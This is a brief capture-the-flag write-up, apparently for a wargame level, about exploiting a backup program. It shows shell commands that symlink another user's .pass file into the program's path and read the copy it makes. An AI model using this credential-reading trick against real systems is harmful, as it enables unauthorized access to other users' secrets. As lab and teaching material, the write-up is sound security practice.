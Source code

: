 ## Brief
This program is pretty simple as no over-complicated exploit is necessary to get access to the flag.
This program open and write some logs in a file located at ./backup/logs and copy the file as parameter in the `backup` folder.

## Exploit
In order to be able to read we could simply do:
```bash
./level08 /home/users/level09/.pass
```
or
```bash
./level08 ../level09/.pass
```
But the file cannot be created in the `backup` folder.

The trick is to create a simlink pointing to the `.pass` file in order to be able to create a file in the backup folder.

## Commands
 
```bash
chmod 777 .
ln -s ../level09/.pass test
./level08 test
cat ./backups/test
```